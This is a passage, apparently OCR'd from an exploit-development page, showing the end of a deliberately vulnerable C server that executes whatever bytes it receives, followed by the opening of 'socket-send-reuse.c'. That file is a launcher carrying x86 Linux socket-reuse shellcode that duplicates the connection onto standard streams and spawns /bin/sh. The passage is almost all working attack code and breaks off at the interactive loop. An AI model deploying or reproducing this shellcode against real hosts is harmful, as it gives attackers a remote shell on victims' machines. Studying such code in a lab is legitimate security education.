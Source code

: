```c
    bind(serverfd, (struct sockaddr *)&server_addr, sizeof(server_addr));
    listen(serverfd, 0);
    clientfd = accept(serverfd, (struct sockaddr *)&client_addr, 
        &client_len);
 
    printf("[*] Received %d bytes, executing.n", 
        read(clientfd,buffer,1024));
    execute(buffer);
 
    printf("[*] Closing sockets.n");
    close(clientfd);
    close(serverfd);
 
    return 0; 
}
```
File: socket-send-reuse.c
```c	
#include <sys/socket.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>
 
// Port 4444 (x11x5c) 
char shellcode[] = {
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01"
"\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b\x6a\x02"
"\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
};
  
int
main(int argc, char *argv[]) 
{
    struct sockaddr_in server_addr, bind_addr;
    struct hostent* server, *_bind;
    char buf[1024], inbuf[1024];
    int sock;
  
    _bind = gethostbyname(argv[3]);
    bind_addr.sin_family = AF_INET;
    bind_addr.sin_port   = htons(atoi(argv[4]));
    memcpy(&bind_addr.sin_addr.s_addr, _bind->h_addr, _bind->h_length);
  
    server = gethostbyname(argv[1]);
    server_addr.sin_family = AF_INET;
    memcpy(&server_addr.sin_addr.s_addr, server->h_addr, server->h_length);
    server_addr.sin_port = htons(atoi(argv[2]));
  
    sock = socket(AF_INET, SOCK_STREAM, 0);
    bind(sock, (struct sockaddr *)&bind_addr, sizeof(bind_addr));
   
    printf("[*] Connecting to %sn", argv[1]);
    connect(sock, (struct sockaddr *)&server_addr, sizeof(server_addr));
   
    printf("[*] Sending payloadn");
    send(sock, shellcode, strlen(shellcode), MSG_NOSIGNAL);
 
    while(fgets(buf, 1024, stdin) != NULL) {
```